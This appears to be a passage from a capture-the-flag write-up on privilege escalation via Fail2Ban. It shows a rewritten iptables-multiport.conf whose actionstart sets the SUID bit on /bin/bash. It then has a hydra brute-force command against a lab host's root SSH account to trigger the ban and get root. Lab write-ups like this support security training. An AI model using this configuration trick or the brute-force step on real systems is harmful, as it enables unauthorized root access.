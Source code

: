 More information can be find in [****Fail2Ban****](https://www.notion.so/Fail2Ban-04b8156fc1194f40b3c1ef67acb9cb55).

![Untitled](pics/Untitled%2012.png)

We are apart of the security group that can write to this directory. We can also move files, by default when a user is banned, the `iptables-multiport.conf` is ran. We can move this file (renaming it to `iptables-multiport.conf.bk` and re-creating it with write permissions.

The new file `iptables-multiport.conf` can be as below.

```bash
# FILE: iptables-multport.conf

[INCLUDES]

before = iptables-common.conf

[Definition]

# Enable SUID when start this action
**actionstart = chmod u+s /bin/bash**

actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>

actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>

[Init]
```

After change the file, restart the service **fail2ban**:

```bash
$ sudo /etc/init.d/fail2ban restart

[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

Was used the hydra to force execute the file `iptables-multiport.conf`

```bash
hydra 10.10.11.166 ssh -l root -P ./Wordlists/directory-list-2.3-small.txt -t4  -V
```

Here, we can see that the SUID was enabled in /bin/bash:
